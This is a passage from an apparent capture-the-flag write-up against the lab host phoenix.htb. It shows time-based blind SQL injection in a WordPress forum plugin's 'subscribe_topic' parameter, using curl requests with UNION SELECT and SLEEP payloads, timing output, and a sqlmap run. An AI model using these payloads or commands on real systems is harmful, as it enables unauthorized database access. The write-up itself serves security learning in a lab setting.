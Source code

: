     
    
    oxdf@hacky$ time curl -k 'https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(10)'>/dev/null
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 30784    0 30784    0     0   2937      0 --:--:--  0:00:10 --:--:--  9729
    
    real    0m10.488s
    user    0m0.013s
    sys     0m0.007s
    

It takes about 10 seconds to return (the result thrown to `/dev/null` since it
doesn’t matter). That fits since the payload is a 10 seconds sleep (url
decoded):

    
    
    /forum/?subscribe_topic=1 union select 1 and sleep(10)
    

If I change the `sleep` to `sleep(1)` the time matches:

    
    
    oxdf@hacky$ time curl -k 'https://phoenix.htb/forum/?subscribe_topic=1%20union%20select%201%20and%20sleep(1)'>/dev/null
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
    100 30781    0 30781    0     0  20896      0 --:--:--  0:00:01 --:--:-- 20896
    
    real    0m1.483s
    user    0m0.021s
    sys     0m0.000s
    

There’s definitely SQL injection going on there.

#### sqlmap Identify

Time-based SQL injection is a pain to do manually, so I’ll turn to `sqlmap`.
Given what I know about the vulnerability and that it’s WordPress (so probably
using MySQL), I’ll give it parameters to speed up the test:

    
    
    oxdf@hacky$ sqlmap --url "https://phoenix.htb/forum/?subscribe_topic=*" --dbms=mysql --technique=T
    ...[snip]...
    custom injection marker ('*') found in option '-u'. Do you want to process it? [Y/n/q] 
    [21:36:30] [WARNING] it seems that you've provided empty parameter value(s) for testing. Please, always use only valid parameter values so sqlmap could be able to run properly
    [21:36:30] [INFO] testing connection to the target URL
    you have not declared cookie(s), while server wants to set its own ('asgarosforum_unique_id=620c1cd656c1a;asgarosforum_unread_cleared=1000-01-01%...%3A00%3A00'). Do you want to use those [Y/n] 
    [21:36:32] [INFO] checking if the target is protected by some kind of WAF/IPS
    [21:36:33] [WARNING] heuristic (basic) test shows that URI parameter '#1*' might not be injectable
    [21:36:33] [INFO] testing for SQL injection on URI parameter '#1*'
    [21:36:33] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
    [21:36:33] [WARNING] time-based comparison requires larger statistical model, please wait............................ (done)
    [21:36:46] [WARNING] URI parameter '#1*' does not seem to be injectable
    [21:36:46] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'--risk' options if you wish to perform more tests. Rerun without providing the option '--technique'. If you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option '--tamper' (e.g. '--tamper=space2comment') and/or switch '--random-agent'
    ...[snip]...
    